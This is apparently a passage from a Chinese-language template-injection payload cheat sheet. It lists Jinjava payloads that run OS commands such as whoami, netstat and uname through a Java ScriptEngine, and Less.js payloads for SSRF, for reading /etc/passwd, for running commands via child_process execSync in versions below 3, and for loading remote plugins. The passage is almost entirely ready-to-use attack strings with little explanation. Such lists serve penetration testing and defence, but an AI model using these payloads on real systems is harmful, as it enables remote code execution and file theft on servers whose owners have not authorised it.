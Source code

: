 通过 https://github.com/HubSpot/jinjava/pull/230 修复

```python
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

---

## Lessjs

[官方网站](https://lesscss.org/)

> Less（代表更精简的样式表）是CSS的后向兼容语言扩展。这是Less语言的官方文档，以及Less.js的文档，Less.js是将您的Less样式转换为CSS样式的JavaScript工具。

### Lessjs - SSRF / LFI

```less
@import (inline) "http://localhost";
// 或
@import (inline) "/etc/passwd";
```

### Lessjs < v3 - 命令执行

```less
body {
  color: `global.process.mainModule.require("child_process").execSync("id")`;
}
```

### 插件

Lessjs插件可以远程包含，并由在Less转换时执行的JavaScript组成。

```less
// 本地插件使用示例
@plugin "plugin-2.7.js";
```

或

```less
// 远程插件使用示例
@plugin "http://example.com/plugin-2.7.js"
```
